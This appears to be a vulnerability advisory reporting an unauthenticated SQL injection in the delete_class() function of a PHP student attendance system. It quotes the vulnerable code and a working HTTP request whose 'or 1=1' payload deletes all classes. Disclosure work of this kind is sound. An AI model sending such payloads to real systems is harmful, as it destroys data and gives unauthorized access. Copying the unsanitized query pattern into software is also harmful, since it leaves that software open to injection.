 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Simple Student Attendance System using PHP and MySQL 1.0](https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html) <br/>

**Affected Version**:
> Simple Student Attendance System using PHP and MySQL 1.0

**Affected Site Page**: 
> /ajax-api.php<br/>

**Affected Code**: 
> </ajax-api.php [function delete_class()]> <br/>

```php
public function delete_class(){
    extract($_POST);
    $delete = $this->conn->query("DELETE FROM `class_tbl` where `id` = '{$id}'");
    if($delete){
        $_SESSION['flashdata'] = [ 'type' => 'success', 'msg' => "Class has been deleted successfully!" ];
        return [ "status" => "success" ];
    }else{
        $_SESSION['flashdata'] = [ 'type' => 'danger', 'msg' => "Class has failed to deleted due to unknown reason!" ];
        return [ "status" => "error", "Class has failed to deleted!" ];
    }
}
```

**Related CWE:**
> [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

## **Details:**
> Allows SQL Injection by placing untrusted code

![image](https://github.com/smurf-reigz/security/assets/48426940/b74a2c69-b612-4b7d-a61d-04e2320e2173)

```http 
POST /ajax-api.php?action=delete_class HTTP/1.1
Host: localhost
Content-Length: 16
Connection: close

id=7'+or+1=1;--+
```

DELETES all classes without authentication.

![image](https://github.com/smurf-reigz/security/assets/48426940/49ac0660-57e5-4cb0-9c4c-288b215d4ccd)


## **Vulnerability Impact:**
> As an attacker, can do the following:
> 1. Run any database query and have same permission as the web application (default for this Web Application is root).
